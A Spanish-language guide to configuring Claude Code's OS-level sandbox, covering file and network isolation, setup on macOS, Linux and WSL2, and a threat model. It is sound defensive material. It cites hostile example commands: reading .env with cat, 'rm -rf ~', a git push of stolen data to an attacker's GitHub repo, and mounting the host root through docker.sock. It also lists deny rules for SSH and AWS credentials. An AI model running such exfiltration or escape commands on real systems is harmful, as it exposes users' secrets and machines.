

# 🛡️ Sandboxing con Claude Code

> El **sandbox** es la única capa de seguridad de Claude Code que **no depende de lo que Claude pida**, sino de **lo que el sistema operativo le deja hacer**.
>
> Los modos y las reglas de permisos deciden *si* una acción se ejecuta. El sandbox decide *qué puede tocar* esa acción una vez en marcha: qué archivos puede escribir, qué archivos puede leer y a qué servidores puede conectarse. Esto aplica al comando y también a **todos los procesos que ese comando lance**.

Documentos relacionados: [Modos de permisos](./Modos%20de%20permisos%20de%20Claude%20Code.md) · [Permisos personalizados](./Permisos%20personalizados%20con%20Claude%20Code.md) · [Permisos automáticos vs personalizados](./Permisos%20automáticos%20vs%20permisos%20personalizados.md)

---

## 📑 Tabla de contenido

1. [Nivel 0 — ¿Qué problema resuelve?](#-nivel-0--qué-problema-resuelve)
2. [Nivel 1 — Conceptos clave](#-nivel-1--conceptos-clave)
3. [Nivel 1 — Activarlo en 2 minutos](#-nivel-1--activarlo-en-2-minutos)
4. [Nivel 2 — Arquitectura: cómo funciona por dentro](#-nivel-2--arquitectura-cómo-funciona-por-dentro)
5. [Nivel 2 — Aislamiento del sistema de archivos](#-nivel-2--aislamiento-del-sistema-de-archivos)
6. [Nivel 2 — Aislamiento de red](#-nivel-2--aislamiento-de-red)
7. [Nivel 3 — Modos del sandbox y relación con los permisos](#-nivel-3--modos-del-sandbox-y-relación-con-los-permisos)
8. [Nivel 3 — Configuración completa](#-nivel-3--configuración-completa)
9. [Nivel 3 — Plataformas: macOS, Linux y Windows](#-nivel-3--plataformas-macos-linux-y-windows)
10. [Nivel 4 — Modelo de amenazas: qué protege y qué no](#-nivel-4--modelo-de-amenazas-qué-protege-y-qué-no)
11. [Nivel 4 — Herramientas incompatibles y vías de escape](#-nivel-4--herramientas-incompatibles-y-vías-de-escape)
12. [Nivel 5 — Sandbox Runtime fuera de Claude Code](#-nivel-5--sandbox-runtime-fuera-de-claude-code)
13. [Nivel 5 — Sandbox vs contenedores vs VMs](#-nivel-5--sandbox-vs-contenedores-vs-vms)
14. [Configuraciones de referencia](#-configuraciones-de-referencia)
15. [Diagnóstico de problemas](#-diagnóstico-de-problemas)
16. [Checklist de experto](#-checklist-de-experto)

---

## 🟢 Nivel 0 — ¿Qué problema resuelve?

### El hueco que dejan los permisos

Las reglas de permisos actúan sobre **la petición** de Claude. Comparan texto con patrones. Eso deja dos problemas sin resolver:

```
┌──────────────────────────────────────────────────────────────────────┐
│  PROBLEMA 1 — Las reglas Read/Edit no ven dentro de Bash             │
│                                                                      │
│   deny: Read(./.env)                                                 │
│                                                                      │
│   Herramienta Read(.env)  ─────►  ⛔ bloqueado                       │
│   Bash: cat .env          ─────►  ✅ se ejecuta  (la regla no aplica) │
│   Bash: python leer.py    ─────►  ✅ se ejecuta  (el script lee .env) │
├──────────────────────────────────────────────────────────────────────┤
│  PROBLEMA 2 — Un comando aprobado puede hacer más de lo que parece   │
│                                                                      │
│   allow: Bash(npm test *)                                            │
│                                                                      │
│   npm test  ──► ejecuta código del proyecto, scripts postinstall,    │
│                 dependencias de terceros...                          │
│                 └─► cualquiera puede hacer curl a un servidor externo │
└──────────────────────────────────────────────────────────────────────┘
```

Ningún patrón de texto puede saber qué hará un programa por dentro. **El sistema operativo sí puede limitarlo.**

### Qué ofrece el sandbox

| Sin sandbox | Con sandbox |
|-------------|-------------|
| Proteges lo que **anticipas** con reglas | El SO bloquea todo lo que **no autorizaste** |
| `cat .env` evade `deny: Read(.env)` | `cat .env` falla: el SO niega la lectura |
| Un script puede enviar datos a cualquier dominio | Solo se puede conectar a los dominios aprobados |
| Muchas aprobaciones → fatiga → aprobar sin leer | Menos diálogos, porque el entorno ya está acotado |
| Seguridad basada en **confianza** | Seguridad basada en **límites** |

> [!IMPORTANT]
> El sandbox **no sustituye** a los permisos. Los complementa: los permisos controlan **la intención** y el sandbox controla **la capacidad**.

---

## 🟢 Nivel 1 — Conceptos clave

| Concepto | Definición |
|----------|------------|
| **Sandbox** | Entorno restringido por el SO donde se ejecutan los comandos `Bash` de Claude y todos sus procesos hijos. |
| **Aislamiento de filesystem** | Límite sobre qué rutas se pueden **leer** y **escribir**. |
| **Aislamiento de red** | Límite sobre a qué **dominios** se puede conectar. |
| **Proxy de red** | Servidor que corre **fuera** del sandbox y por el que pasa todo el tráfico; permite o rechaza cada conexión según el dominio. |
| **Primitiva del SO** | Mecanismo nativo que aplica el aislamiento: *Seatbelt* en macOS y *bubblewrap* en Linux. |
| **Herencia** | Las restricciones se aplican al comando **y a todo lo que lance**: scripts, compiladores, gestores de paquetes, tests. |
| **Comando excluido** | Comando que se ejecuta fuera del sandbox porque es incompatible con él (p. ej. `docker`). |
| **Vía de escape** | Mecanismo por el que un comando que falla dentro del sandbox puede reintentarse fuera, siempre pasando por el sistema de permisos. |

### ¿Qué cubre exactamente?

```
                ┌───────────────────────────────────────────────┐
                │              Herramientas de Claude           │
                ├───────────────┬───────────────────────────────┤
                │ Read / Edit / │ Las gobiernan las REGLAS      │
                │ Write / Grep  │ de permisos                   │
                │ WebFetch      │                               │
                ├───────────────┼───────────────────────────────┤
                │ Bash          │ REGLAS de permisos            │
                │  └─ procesos  │      +                        │
                │     hijos     │ SANDBOX del sistema operativo │ ◄── aquí actúa
                └───────────────┴───────────────────────────────┘
```

> [!NOTE]
> El sandbox aísla los **comandos de shell** (la herramienta `Bash`) y sus subprocesos. Las herramientas internas como `Read`, `Edit` o `WebFetch` siguen controladas por las reglas de permisos.

---

## 🟢 Nivel 1 — Activarlo en 2 minutos

### Opción A: interactivo

```text
/sandbox
```

Se abre un menú para activar el sandbox y elegir el modo (ver Nivel 3).

### Opción B: en configuración

`.claude/settings.json` (equipo) o `~/.claude/settings.json` (personal):

```json
{
  "sandbox": {
    "enabled": true
  }
}
```

### Comprobar que funciona

Pide a Claude que ejecute estos comandos y observa el resultado:

```bash
# Escritura fuera del proyecto → debe fallar
touch ~/prueba-sandbox.txt

# Red a un dominio no aprobado → debe bloquearse o pedir aprobación
curl https://example.com

# Escritura dentro del proyecto → debe funcionar
touch ./prueba-sandbox.txt && rm ./prueba-sandbox.txt
```

---

## 🟡 Nivel 2 — Arquitectura: cómo funciona por dentro

```
┌─────────────────────────────────────────────────────────────────────────┐
│                           TU MÁQUINA (host)                             │
│                                                                         │
│   ┌───────────────┐                                                     │
│   │  Claude Code  │  1. Claude pide ejecutar: npm test                  │
│   └──────┬────────┘                                                     │
│          │ 2. Reglas de permisos (deny → ask → allow)                   │
│          ▼                                                              │
│   ┌──────────────────────────────────────────────┐                      │
│   │              SANDBOX (aplicado por el SO)     │                      │
│   │   Seatbelt (macOS) / bubblewrap (Linux)       │                      │
│   │                                               │                      │
│   │   npm test                                    │                      │
│   │    ├─ node jest ...                           │                      │
│   │    │   └─ script.js  ── lee/escribe ──┐       │                      │
│   │    └─ postinstall.sh ── conecta ──┐   │       │                      │
│   │                                   │   │       │                      │
│   └───────────────────────────────────┼───┼───────┘                      │
│                                       │   │                              │
│              3a. RED                  │   │  3b. FILESYSTEM              │
│                                       ▼   ▼                              │
│   ┌──────────────────────┐   ┌─────────────────────────────────┐        │
│   │ Proxy (fuera del     │   │ Kernel: ¿ruta permitida?        │        │
│   │ sandbox)             │   │  ✅ ./proyecto/**   (escritura) │        │
│   │ ¿Dominio permitido?  │   │  ✅ resto del disco (lectura)   │        │
│   │  ✅ registry.npmjs.org│   │  ⛔ rutas denegadas             │        │
│   │  ⛔ evil.com          │   │  ⛔ escritura fuera del proyecto│        │
│   │  ❓ nuevo → pregunta  │   └─────────────────────────────────┘        │
│   └──────────┬───────────┘                                              │
└──────────────┼──────────────────────────────────────────────────────────┘
               ▼
           Internet
```

**Puntos clave de la arquitectura:**

1. **El aislamiento lo aplica el kernel**, no Claude Code. Un programa no puede "decidir" saltárselo.
2. **El proxy vive fuera del sandbox.** Dentro, la única salida de red disponible es el proxy, así que no se puede esquivar.
3. **Se hereda.** Da igual que el comando sea `npm`, `python`, `make` o un binario compilado: todos sus hijos tienen los mismos límites.
4. **Las restricciones se derivan de tu configuración de permisos.** No tienes que mantener dos políticas separadas.

---

## 🟡 Nivel 2 — Aislamiento del sistema de archivos

### Comportamiento por defecto

| Operación | Dentro del directorio de trabajo | Fuera del directorio de trabajo |
|-----------|:--------------------------------:|:-------------------------------:|
| **Leer** | ✅ | ✅ (salvo rutas denegadas) |
| **Escribir / crear / borrar** | ✅ | ⛔ |

```
/ (raíz)
├── etc/                    📖 lectura       ✏️ ⛔
├── usr/                    📖 lectura       ✏️ ⛔
└── home/yeison/
    ├── .bashrc             📖 lectura       ✏️ ⛔   ← protege tu shell
    ├── .ssh/               📖 ⛔ si hay deny Read(~/.ssh/**)
    ├── .aws/               📖 ⛔ si hay deny Read(~/.aws/**)
    └── repos/mi-proyecto/  ◄── directorio de trabajo
        ├── src/            📖 ✅            ✏️ ✅
        ├── tests/          📖 ✅            ✏️ ✅
        ├── .env            📖 ⛔ si hay deny Read(./.env)
        └── config/prod/    ✏️ ⛔ si hay deny Edit(./config/prod/**)
```

### Cómo se personaliza

El sandbox **reutiliza tus reglas de permisos**:

| Regla de permisos | Efecto en el sandbox |
|-------------------|----------------------|
| `deny: Read(./.env)` | Ningún proceso del sandbox puede leer `.env`, ni con `cat`, ni con Python, ni con nada |
| `deny: Edit(./config/prod/**)` | Ningún proceso puede escribir ahí, aunque esté dentro del proyecto |
| `allow: Edit(../shared-lib/**)` / `additionalDirectories` | Amplía las rutas donde se puede escribir |

> [!TIP]
> Aquí está el valor principal: **una regla `deny: Read` pasa de ser "de mejor esfuerzo" a cumplirse a nivel de SO** para todo lo que se ejecute en Bash.

---

## 🟡 Nivel 2 — Aislamiento de red

### Flujo de una conexión



### Cómo se personaliza

| Mecanismo | Efecto |
|-----------|--------|
| `allow: WebFetch(domain:registry.npmjs.org)` | El dominio queda permitido también para los procesos del sandbox |
| `deny: WebFetch(domain:pastebin.com)` | Bloqueado siempre |
| Dominio nuevo no listado | Claude Code pregunta (o deniega en modos sin interacción) |

### Lo que filtra y lo que no

| ✅ Filtra | ❌ No hace |
|-----------|-----------|
| Conexiones por **nombre de dominio** | No inspecciona el **contenido** del tráfico |
| Todo proceso hijo, sin importar el lenguaje | No distingue rutas dentro de un dominio (`github.com/mi-org` vs `github.com/atacante`) |
| Conexiones directas a IPs fuera del proxy | No impide abusar de un dominio permitido (ver Nivel 4) |

---

## 🟠 Nivel 3 — Modos del sandbox y relación con los permisos

Al activar `/sandbox` eliges cómo interactúa con el sistema de permisos:

```
                    Claude quiere ejecutar un comando Bash
                                    │
                                    ▼
                     ┌──────────────────────────────┐
                     │ ¿Coincide una regla deny?     │── sí ──► ⛔ Bloqueado
                     └──────────────┬───────────────┘
                                    │ no
                ┌───────────────────┴────────────────────┐
                ▼                                        ▼
   ╔═══════════════════════════╗          ╔═══════════════════════════╗
   ║  MODO AUTO-ALLOW          ║          ║  MODO PERMISOS REGULARES  ║
   ║  (autoAllowBashIfSandboxed║          ║                           ║
   ║   = true)                 ║          ║                           ║
   ╠═══════════════════════════╣          ╠═══════════════════════════╣
   ║ ¿Se puede ejecutar en el  ║          ║ Flujo normal:             ║
   ║ sandbox?                  ║          ║ ask / allow / modo        ║
   ║  ├─ sí ► ✅ se ejecuta sin║          ║  └─ si se aprueba ► se    ║
   ║  │       preguntar        ║          ║     ejecuta DENTRO del    ║
   ║  └─ no ► flujo normal de  ║          ║     sandbox               ║
   ║          permisos         ║          ║                           ║
   ╚═══════════════════════════╝          ╚═══════════════════════════╝
         Menos fricción                         Máximo control
```

| | Auto-allow | Permisos regulares |
|---|---|---|
| Diálogos | Mínimos | Los habituales |
| Seguridad | Alta (el SO acota) | Muy alta (SO + revisión humana) |
| Ideal para | Desarrollo diario, tareas largas | Repos desconocidos, trabajo sensible |
| Reglas `deny` / `ask` | ✅ Se siguen respetando | ✅ Se siguen respetando |

> [!IMPORTANT]
> Auto-allow **no** significa "sin control". Significa que, como el SO ya limita qué archivos y dominios se pueden tocar, el diálogo de aprobación aporta poco valor adicional. Tus reglas `deny` y `ask` se siguen aplicando.

### Las cuatro capas juntas

```
  Petición de Claude
        │
  ┌─────▼─────┐   ¿Qué se puede pedir?         → Reglas deny / ask / allow
  │ PERMISOS  │
  └─────┬─────┘
  ┌─────▼─────┐   ¿Pedir aprobación?           → Modo de permisos / modo sandbox
  │   MODO    │
  └─────┬─────┘
  ┌─────▼─────┐   ¿Lógica personalizada?       → Hooks PreToolUse
  │   HOOKS   │
  └─────┬─────┘
  ┌─────▼─────┐   ¿Qué se puede TOCAR?         → Sandbox (kernel)
  │  SANDBOX  │
  └─────┬─────┘
        ▼
    Ejecución
```

---

## 🟠 Nivel 3 — Configuración completa

```json
{
  "sandbox": {
    "enabled": true,
    "autoAllowBashIfSandboxed": true,
    "allowUnsandboxedCommands": false,
    "excludedCommands": ["docker", "docker-compose"],
    "network": {
      "allowLocalBinding": true,
      "allowUnixSockets": [],
      "httpProxyPort": 8080,
      "socksProxyPort": 8081
    },
    "enableWeakerNestedSandbox": false
  },
  "permissions": {
    "allow": [
      "WebFetch(domain:registry.npmjs.org)",
      "WebFetch(domain:api.nuget.org)",
      "WebFetch(domain:github.com)"
    ],
    "deny": [
      "Read(./.env)",
      "Read(./.env.*)",
      "Read(~/.ssh/**)",
      "Read(~/.aws/**)",
      "Edit(./config/prod/**)"
    ]
  }
}
```

| Clave | Para qué sirve | Recomendación |
|-------|----------------|---------------|
| `enabled` | Activa el sandbox | `true` |
| `autoAllowBashIfSandboxed` | Ejecuta sin preguntar los comandos que corren dentro del sandbox | `true` en el día a día |
| `allowUnsandboxedCommands` | Permite la vía de escape: reintentar fuera del sandbox un comando que falló | `false` en entornos estrictos |
| `excludedCommands` | Comandos que siempre se ejecutan fuera del sandbox | Solo los imprescindibles |
| `network.allowLocalBinding` | Permite abrir puertos locales (servidores de desarrollo) | `true` si usas `npm run dev`, `dotnet run`… |
| `network.allowUnixSockets` | Sockets Unix accesibles desde el sandbox | ⚠️ Con mucho cuidado (ver Nivel 4) |
| `network.httpProxyPort` / `socksProxyPort` | Usar tu propio proxy en lugar del integrado | Solo para inspección corporativa |
| `enableWeakerNestedSandbox` | Modo debilitado para Linux dentro de Docker sin privilegios | Solo si no hay alternativa |

> [!NOTE]
> El sandbox evoluciona rápido. Antes de usar una clave en producción, verifica el nombre y el valor por defecto en la [documentación oficial](https://docs.anthropic.com/en/docs/claude-code/sandboxing) o con `/sandbox`.

---

## 🟠 Nivel 3 — Plataformas: macOS, Linux y Windows

| Plataforma | Mecanismo | Requisitos | Estado |
|------------|-----------|------------|:------:|
| **macOS** | Seatbelt (`sandbox-exec`) | Ninguno, viene con el sistema | ✅ |
| **Linux** | bubblewrap (`bwrap`) + `socat` para el proxy | Instalar paquetes | ✅ |
| **Windows (WSL2)** | bubblewrap dentro de WSL2 | Ejecutar Claude Code en WSL2 | ✅ |
| **Windows (WSL1)** | — | — | ❌ |
| **Windows nativo** | — | — | ❌ No disponible de forma nativa |

### Dónde vive cada archivo de configuración

| Archivo | macOS | Linux / WSL2 | Windows nativo |
|---------|-------|--------------|----------------|
| Usuario | `~/.claude/settings.json` | `~/.claude/settings.json` | `%USERPROFILE%\.claude\settings.json` |
| Proyecto (equipo) | `.claude/settings.json` | `.claude/settings.json` | `.claude\settings.json` |
| Proyecto (personal) | `.claude/settings.local.json` | `.claude/settings.local.json` | `.claude\settings.local.json` |
| Gestionado (organización) | `/Library/Application Support/ClaudeCode/managed-settings.json` | `/etc/claude-code/managed-settings.json` | `C:\Program Files\ClaudeCode\managed-settings.json` |

> [!WARNING]
> **WSL2 y Windows son dos instalaciones distintas.** El `~/.claude/settings.json` de WSL2 (`/home/<usuario>/.claude/`) **no es** el mismo que `C:\Users\<usuario>\.claude\`. Si tienes reglas en Windows, cópialas a WSL2: no se heredan.

---

### 🍎 Guía macOS

No hace falta instalar nada: Seatbelt viene con el sistema.

```bash
# 1. Activar
claude
> /sandbox

# 2. Verificar
> ejecuta: touch ~/fuera.txt        # debe fallar
> ejecuta: curl https://example.com # debe bloquearse o pedir aprobación
```

---

### 🐧 Guía Linux

#### Paso 1 — Instalar dependencias

```bash
# Debian / Ubuntu
sudo apt-get update && sudo apt-get install -y bubblewrap socat

# Fedora / RHEL
sudo dnf install -y bubblewrap socat

# Arch
sudo pacman -S bubblewrap socat
```

#### Paso 2 — Verificar que bubblewrap funciona

```bash
which bwrap socat                       # ambos deben mostrar una ruta
bwrap --ro-bind / / --unshare-net true \
  && echo "✅ bubblewrap OK" \
  || echo "❌ bubblewrap bloqueado"
```

#### Paso 3 — Ubuntu 23.10+ / 24.04+: AppArmor bloquea bubblewrap

Las versiones recientes de Ubuntu restringen los *user namespaces* sin privilegios, que es lo que usa `bwrap`. Síntoma: el paso 2 falla con `setting up uid map: Permission denied` o similar.

```bash
# Comprobar la restricción (1 = activa)
sysctl kernel.apparmor_restrict_unprivileged_userns
```

**Opción recomendada:** crear un perfil de AppArmor solo para `bwrap`, sin relajar todo el sistema.

```bash
sudo tee /etc/apparmor.d/bwrap > /dev/null <<'EOF'
abi <abi/4.0>,
include <tunables/global>

profile bwrap /usr/bin/bwrap flags=(unconfined) {
  userns,
  include if exists <local/bwrap>
}
EOF

sudo systemctl reload apparmor
```

**Opción NO recomendada** (relaja la protección para todo el sistema):

```bash
sudo sysctl -w kernel.apparmor_restrict_unprivileged_userns=0
```

#### Paso 4 — Configurar y activar

```bash
mkdir -p ~/.claude
cat > ~/.claude/settings.json <<'EOF'
{
  "sandbox": {
    "enabled": true,
    "autoAllowBashIfSandboxed": true,
    "network": { "allowLocalBinding": true }
  },
  "permissions": {
    "allow": ["WebFetch(domain:registry.npmjs.org)"],
    "deny":  ["Read(~/.ssh/**)", "Read(~/.aws/**)", "Read(**/.env)"]
  }
}
EOF

claude    # luego /sandbox para confirmar el estado
```

#### Linux dentro de Docker (sandbox anidado)

```
┌──────────── Host ─────────────┐
│  ┌──── Contenedor Docker ───┐ │
│  │  claude                   │ │
│  │   └─ bwrap  ◄── necesita  │ │   Sin privilegios no puede crear
│  │      namespaces           │ │   namespaces → el sandbox falla
│  └───────────────────────────┘ │
└────────────────────────────────┘
```

| Opción | Seguridad | Cuándo |
|--------|:---------:|--------|
| Sin sandbox interno; el contenedor ya aísla | 🟡 | Contenedor desechable y con red restringida |
| `"enableWeakerNestedSandbox": true` | 🟠 | Necesitas control de red por dominio dentro del contenedor |
| Contenedor con privilegios para namespaces | 🔴 | Evitar: debilita el aislamiento del propio contenedor |

---

### 🪟 Guía Windows (WSL2)

```
┌──────────────────────────── Windows 11 ────────────────────────────┐
│                                                                    │
│  VS Code (Windows)                                                 │
│     │  extensión "WSL"                                             │
│     ▼                                                              │
│  ┌──────────────────────── WSL2 · Ubuntu ───────────────────────┐  │
│  │                                                               │  │
│  │  VS Code Server ── terminal integrada ── claude ── /sandbox   │  │
│  │                                               │               │  │
│  │                                               ▼               │  │
│  │                                          bubblewrap           │  │
│  │                                                               │  │
│  │  /home/yeison/repos/mi-proyecto   ✅ aquí (rápido, permisos   │  │
│  │                                      Linux correctos)         │  │
│  │  /mnt/c/Users/...                 ⚠️ evitar (lento, permisos  │  │
│  │                                      de Windows)              │  │
│  └───────────────────────────────────────────────────────────────┘  │
└────────────────────────────────────────────────────────────────────┘
```

#### Paso 1 — Instalar WSL2 (PowerShell como administrador)

```powershell
wsl --install -d Ubuntu
# Reiniciar si lo pide; al abrir Ubuntu, crear usuario y contraseña

wsl --set-default-version 2
wsl -l -v          # la columna VERSION debe mostrar 2
```

Si una distribución aparece con versión 1:

```powershell
wsl --set-version Ubuntu 2
```

#### Paso 2 — Preparar Ubuntu (dentro de WSL2)

```bash
sudo apt-get update && sudo apt-get install -y bubblewrap socat git curl

# Node.js 22 LTS con nvm
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.40.1/install.sh | bash
source ~/.bashrc
nvm install 22
node -v            # v22.x

# Claude Code
npm install -g @anthropic-ai/claude-code
claude --version
```

> [!IMPORTANT]
> Instala Node y Claude Code **dentro de WSL2**. Si `which node` o `which claude` devuelven rutas `/mnt/c/...`, estás usando los binarios de Windows y el sandbox no funcionará. Corrígelo con el `nvm` de Linux o quitando las rutas de Windows del `PATH` de WSL.

Si usas Ubuntu 24.04 en WSL2, revisa también el **Paso 3 de la guía Linux** (AppArmor).

#### Paso 3 — Clonar el proyecto en el filesystem de Linux

```bash
mkdir -p ~/repos && cd ~/repos
git clone <url-del-repo> mi-proyecto
cd mi-proyecto
code .             # abre VS Code conectado a WSL
```

#### Paso 4 — Configurar y activar

`~/.claude/settings.json` (dentro de WSL2):

```json
{
  "sandbox": {
    "enabled": true,
    "autoAllowBashIfSandboxed": true,
    "allowUnsandboxedCommands": false,
    "network": { "allowLocalBinding": true }
  },
  "permissions": {
    "allow": [
      "WebFetch(domain:registry.npmjs.org)",
      "WebFetch(domain:api.nuget.org)"
    ],
    "deny": [
      "Read(**/.env)",
      "Read(**/appsettings.Production.json)",
      "Read(~/.ssh/**)",
      "Read(//mnt/c/Users/*/.ssh/**)",
      "Read(//mnt/c/Users/*/.aws/**)"
    ]
  }
}
```

#### Rutas: Windows nativo vs WSL2

Es la confusión más habitual:

| Quiero referirme a… | Windows nativo | Dentro de WSL2 |
|---------------------|----------------|----------------|
| `C:\Users\yeison\.ssh` | `Read(//c/Users/yeison/.ssh/**)` | `Read(//mnt/c/Users/yeison/.ssh/**)` |
| Home del usuario | `Read(~/.ssh/**)` → `C:\Users\yeison\.ssh` | `Read(~/.ssh/**)` → `/home/yeison/.ssh` |
| Todos los `.env` de C: | `Read(//c/**/.env)` | `Read(//mnt/c/**/.env)` |

> [!WARNING]
> Desde WSL2, **todo tu disco de Windows es legible en `/mnt/c`**. El sandbox permite leer fuera del proyecto por defecto, así que niega de forma explícita las carpetas sensibles de Windows (`.ssh`, `.aws`, `.azure`, perfiles de navegador, `AppData`) con rutas `//mnt/c/...`.

#### Proyectos .NET 6 en WSL2

```bash
# Ubuntu 22.04: disponible en los repositorios
sudo apt-get install -y dotnet-sdk-6.0

# Ubuntu 24.04: usar el script oficial
curl -sSL https://dot.net/v1/dotnet-install.sh -o dotnet-install.sh
bash dotnet-install.sh --channel 6.0
echo 'export DOTNET_ROOT=$HOME/.dotnet; export PATH=$PATH:$DOTNET_ROOT' >> ~/.bashrc
source ~/.bashrc
dotnet --list-sdks
```

| Tarea | ¿Funciona en el sandbox? | Nota |
|-------|:------------------------:|------|
| `dotnet build` / `dotnet test` | ✅ | Permite `api.nuget.org` para el `restore` |
| `dotnet run` (API local) | ✅ | Requiere `allowLocalBinding: true` |
| Caché de NuGet en `~/.nuget/packages` | ⚠️ | Está fuera del proyecto; si falla la escritura, usa `NUGET_PACKAGES=./.nuget` |
| Conexión a SQL Server remoto | ⚠️ | El sandbox filtra por dominio: el host del servidor SQL debe estar permitido |
| Visual Studio, IIS, herramientas solo Windows | ❌ | Ejecutarlas fuera de Claude Code |

> [!NOTE]
> .NET 6 llegó al fin de soporte en noviembre de 2024. Funciona, pero conviene planear la migración a una versión LTS vigente.

#### Alternativa sin WSL2: devcontainer

Si no puedes usar WSL2, la opción con aislamiento real en Windows es **Docker Desktop + devcontainer** (Claude Code ejecutándose dentro del contenedor, con Linux). Es más pesado, pero aísla el filesystem completo.

---

### 🏢 Proxy corporativo y certificados (todas las plataformas)

En redes de empresa con proxy e inspección TLS:

```bash
# En ~/.bashrc (Linux / WSL2) o ~/.zshrc (macOS)
export HTTPS_PROXY=http://proxy.empresa.local:8080
export NO_PROXY=localhost,127.0.0.1,.empresa.local
export NODE_EXTRA_CA_CERTS=/ruta/certificado-corporativo.pem
```

```json
{
  "sandbox": {
    "enabled": true,
    "network": { "httpProxyPort": 8080 }
  },
  "permissions": {
    "allow": ["WebFetch(domain:*.empresa.local)"]
  }
}
```

| Síntoma | Causa | Solución |
|---------|-------|----------|
| `self-signed certificate in certificate chain` | El proxy inspecciona TLS | `NODE_EXTRA_CA_CERTS` con la CA corporativa |
| Sin conexión a dominios internos | Dominio no permitido | Añadir `WebFetch(domain:*.empresa.local)` |
| Todo el tráfico falla | Conflicto entre el proxy del sandbox y el corporativo | Revisar `httpProxyPort` / `socksProxyPort` |

---

### 📋 Resumen por plataforma

| | macOS | Linux | Windows |
|---|---|---|---|
| Instalar | Nada | `bubblewrap` + `socat` | WSL2 + Ubuntu + `bubblewrap` + `socat` |
| Obstáculo típico | — | AppArmor en Ubuntu 24.04 | Binarios de Windows en el `PATH`, rutas `/mnt/c` |
| Dónde clonar | Donde quieras | Donde quieras | `~/repos` dentro de WSL2 |
| Reglas de rutas extra | — | — | Denegar `//mnt/c/Users/*/.ssh/**`, etc. |
| Verificación | `/sandbox` + `touch ~/fuera.txt` | `bwrap ... true` + `/sandbox` | `wsl -l -v` + `which claude` + `/sandbox` |

---

## 🔴 Nivel 4 — Modelo de amenazas: qué protege y qué no

### ✅ Contra qué protege

| Amenaza | Cómo la mitiga |
|---------|----------------|
| **Prompt injection** que ordena leer `~/.ssh` y subirlo | Lectura denegada + dominio no permitido |
| **Dependencia maliciosa** (`postinstall` que exfiltra) | Red limitada a dominios aprobados |
| **Comando destructivo** fuera del proyecto (`rm -rf ~`) | Escritura denegada fuera del directorio de trabajo |
| **Persistencia**: modificar `.bashrc`, `.zshrc`, `$PATH` | Escritura denegada fuera del proyecto |
| **Evasión de reglas** con `cat`, Python, `bash -c` | El kernel aplica la regla a cualquier proceso |

### ❌ Contra qué NO protege (o solo en parte)

```
┌────────────────────────────────────────────────────────────────────┐
│ 1. EXFILTRACIÓN A TRAVÉS DE UN DOMINIO PERMITIDO                   │
│                                                                    │
│    allow: github.com                                               │
│    proceso ──► git push https://github.com/atacante/robo.git  ✅    │
│                                                                    │
│    El proxy ve "github.com" y lo deja pasar. No sabe de quién es    │
│    el repositorio.                                                 │
│    ► Mitigación: permite dominios CONCRETOS, no genéricos;          │
│      evita dominios donde cualquiera puede subir contenido.        │
├────────────────────────────────────────────────────────────────────┤
│ 2. DOMAIN FRONTING / CDNs COMPARTIDAS                              │
│                                                                    │
│    Permitir un dominio de CDN puede abrir la puerta a contenido     │
│    de terceros alojado en esa misma CDN.                            │
├────────────────────────────────────────────────────────────────────┤
│ 3. SOCKETS UNIX PRIVILEGIADOS                                      │
│                                                                    │
│    allowUnixSockets: ["/var/run/docker.sock"]                      │
│    proceso ──► docker run -v /:/host ...  ──► acceso TOTAL al host  │
│                                                                    │
│    ► Mitigación: nunca expongas docker.sock ni sockets de agentes  │
│      (ssh-agent, gpg-agent) salvo que sea imprescindible.          │
├────────────────────────────────────────────────────────────────────┤
│ 4. DAÑO DENTRO DEL PROPIO PROYECTO                                 │
│                                                                    │
│    El proyecto ES escribible. Un comando puede borrar src/ o        │
│    introducir código malicioso en tu repositorio.                  │
│    ► Mitigación: git + revisión del diff + reglas ask.             │
├────────────────────────────────────────────────────────────────────┤
│ 5. COMANDOS EXCLUIDOS Y VÍA DE ESCAPE                              │
│                                                                    │
│    Todo lo que esté en excludedCommands, o lo que se reintente      │
│    fuera del sandbox, corre SIN aislamiento.                        │
├────────────────────────────────────────────────────────────────────┤
│ 6. HERRAMIENTAS NO-BASH                                            │
│                                                                    │
│    Read, Edit, WebFetch y las herramientas MCP no corren dentro     │
│    del sandbox; las controlan las reglas de permisos. Un servidor  │
│    MCP local es un proceso aparte.                                 │
└────────────────────────────────────────────────────────────────────┘
```

### Matriz de riesgo de la configuración

| Decisión | Riesgo | Comentario |
|----------|:------:|------------|
| Permitir `registry.npmjs.org`, `api.nuget.org` | 🟢 | Necesario y acotado |
| Permitir `github.com` | 🟡 | Útil, pero permite subir datos a cualquier repo |
| Permitir `*.amazonaws.com`, `*.googleusercontent.com` | 🟠 | Cualquiera puede alojar contenido ahí |
| `allowUnsandboxedCommands: true` | 🟡 | Cada escape pasa por permisos; revisa bien |
| `excludedCommands: ["bash"]` | 🔴 | Anula el sandbox por completo |
| `allowUnixSockets` con `docker.sock` | 🔴 | Equivale a dar acceso root al host |
